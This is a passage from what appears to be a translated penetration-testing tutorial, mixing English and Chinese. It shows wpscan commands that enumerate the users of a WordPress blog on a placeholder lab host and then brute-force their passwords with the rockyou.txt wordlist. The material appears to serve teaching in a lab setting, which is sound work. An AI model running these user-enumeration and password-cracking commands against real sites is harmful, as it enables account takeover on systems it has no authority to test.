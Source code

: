     ```
    wpscan -u https://<IP address>:12380/blogblog/ --enumerate u

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_022.jpg)

2.  To start password cracking, we will provide the wordlist file from the available wordlist in Kali, for example, `rockyou.txt`. Enter the following command in terminal:

    ```
    wpscan -u https://<IP address>:12380/blogblog/ --wordlist        /usr/share/wordlists/rockyou.txt  --threads 50

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_023.jpg)
